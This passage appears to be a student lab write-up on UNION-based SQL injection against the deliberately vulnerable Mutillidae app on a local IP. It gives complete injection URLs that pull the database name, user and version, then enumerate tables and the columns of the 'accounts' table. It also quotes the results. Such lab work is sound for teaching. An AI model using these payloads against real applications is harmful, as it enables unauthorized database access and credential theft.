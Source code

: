 As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![8 23](https://github.com/keerthanaa10/sqlinjection/assets/132996371/5fd9e113-8964-41e0-90e0-f033447fdd9b)

 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details



![8 24](https://github.com/keerthanaa10/sqlinjection/assets/132996371/d898f70c-d73e-4122-9fee-aa1907068f96)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![8 25](https://github.com/keerthanaa10/sqlinjection/assets/132996371/797af364-a6f6-4bae-8b5b-51a27af86743)


The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.




![8 26](https://github.com/keerthanaa10/sqlinjection/assets/132996371/adc607a4-0165-4ef1-bc5e-948ae15f546d)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![8 27](https://github.com/keerthanaa10/sqlinjection/assets/132996371/12a58694-e1bc-4b7e-970b-1fa7b17602dd)




